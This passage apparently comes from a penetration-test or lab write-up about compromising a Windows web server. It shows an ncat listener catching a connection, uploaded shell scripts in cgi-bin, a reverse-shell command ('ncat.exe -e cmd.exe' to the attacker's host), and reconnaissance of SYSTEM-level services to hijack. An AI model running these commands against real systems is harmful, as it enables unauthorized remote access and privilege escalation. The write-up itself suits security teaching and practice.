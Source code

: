 ```shell_session
Ncat: Connection from 10.2.0.107.
Ncat: Connection from 10.2.0.107:1085.
dir
 Volume in drive C has no label.
 Volume Serial Number is 1089-0B4E

 Directory of c:\www\root\cgi-bin

08/19/2017  08:02 PM    <DIR>          .
08/19/2017  08:02 PM    <DIR>          ..
08/19/2017  07:45 PM            74,743 shell.exe
08/19/2017  07:55 PM               141 shell.pl
08/19/2017  07:58 PM               129 shell2.pl
08/19/2017  07:58 PM               127 shell3.pl
08/19/2017  08:00 PM               138 shell4.pl
08/19/2017  08:02 PM               148 shell5.pl
               6 File(s)         75,426 bytes
               2 Dir(s)   7,812,980,736 bytes free
```

## Upgrading Shell to NT AUTHORITY\SYSTEM
As the Perl script I had uploaded was simply shelling commands and provided no interactive functionality, the first thing I did was use TFTP again to transfer a copy of [ncat](https://nmap.org/ncat/) onto the system.

Once transferred, I started up a second handler on port 5555 and used ncat to establish a second session, by running `ncat.exe -e cmd.exe 10.2.0.3 5555`.

Now that I had an interactive shell, I began to do some recon to see how I could escalate to the SYSTEM account, as my current shell was running as the user `alex`.

A look at the current process list revealed there were three services running as SYSTEM, which could potentially be hijacked:

```shell_session
c:\www\root\cgi-bin>tasklist /FI "username eq SYSTEM"
tasklist /FI "username eq SYSTEM"

Image Name                   PID Session Name     Session#    Mem Usage
========================= ====== ================ ======== ============
***
FileZilla server.exe         544 Console                 0      3,032 K
FreeSSHDService.exe          616 Console                 0      8,380 K
OpenTFTPServerMT.exe         956 Console                 0      1,864 K
***
```

Next, I took a look at the list of running services, and was able to identify the service names of these three processes:

```shell_session
c:\www\root\cgi-bin>net start
net start
These Windows services are started:

***
   FileZilla Server FTP server
   FreeSSHDService
***
   Open TFTP Server, MultiThreaded
***

The command completed successfully.
```
